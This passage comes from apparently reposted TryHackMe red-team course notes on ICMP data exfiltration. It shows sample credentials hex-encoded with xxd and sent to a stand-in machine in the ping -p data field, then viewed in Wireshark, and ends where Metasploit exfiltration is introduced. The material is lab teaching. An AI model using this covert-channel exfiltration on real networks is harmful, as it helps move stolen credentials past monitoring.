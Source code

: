 Note that the Data field is optional and could either be empty or it could contain a random string during the communications.

**Let's say** that we need to exfiltrate the following credentials `thm:tryhackme`. First, we need to convert it to its Hex representation and then pass it to the ping command using -p options as follows,

`root@AttackBox$ echo "thm:tryhackme" | xxd -p `

We used the `xxd` command to convert our string to Hex, and then we can use the `ping` command with the Hex value we got from converting the `thm:tryhackme`.

`root@AttackBox$ ping MACHINE_IP -c 1 -p 74686d3a7472796861636b6d650a`

Let's look at the Data section for this packet in the Wireshark.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/21.png)

Excellent! We have successfully filled the ICMP's Data section with our data and manually sent it over the network using the `ping` command.

### ICMP Data Exfiltration

Now that we have the basic fundamentals of manually sending data over ICMP packets, let's discuss how to use Metasploit to exfiltrate data.
